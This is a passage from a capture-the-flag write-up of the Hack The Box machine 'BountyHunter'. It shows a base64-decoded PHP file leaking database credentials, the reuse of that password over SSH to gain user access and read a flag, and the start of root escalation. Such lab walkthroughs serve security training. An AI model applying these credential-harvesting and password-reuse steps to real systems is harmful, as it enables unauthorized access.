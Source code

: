 Since we php filtered it using base64, we need to decode the response:
```text
[bountyhunter] λ echo -n "PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo" |base64 -d
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
base64: invalid input
```

## Privilege Escalation to User

We get some db credentials. Anytime a password is found, it's worth trying to to login to other services using that password. Even security driven people reuse passwords. Let's try ssh using the development user we found and this password:
```text
[bountyhunter] λ ssh development@bountyhunter.htb
The authenticity of host 'bountyhunter.htb (10.129.204.162)' can't be established.
ECDSA key fingerprint is SHA256:3IaCMSdNq0Q9iu+vTawqvIf84OO0+RYNnsDxDBZI04Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bountyhunter.htb,10.129.204.162' (ECDSA) to the list of known hosts.
development@bountyhunter.htb's password:
development@bountyhunter:~$
```

We officially have user-level access to the machine, here's the flag:
```text
development@bountyhunter:~$ whoami
development
development@bountyhunter:~$ cat user.txt
4d91daa2e1656ca96--truncated--
```

## Privilege Escalation to Root User

With user access, the last step is to escalate our privileges to root / complete privileges over the machine.

Along with the user flag file, there is a contract.txt in development's home directory:
```text
development@bountyhunter:~$ ls
contract.txt  user.txt
development@bountyhunter:~$ cat contract.txt
Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc getscompleted.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful oftickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
```


[1]: https://app.hackthebox.com/users/280547
[2]: https://www.hackthebox.eu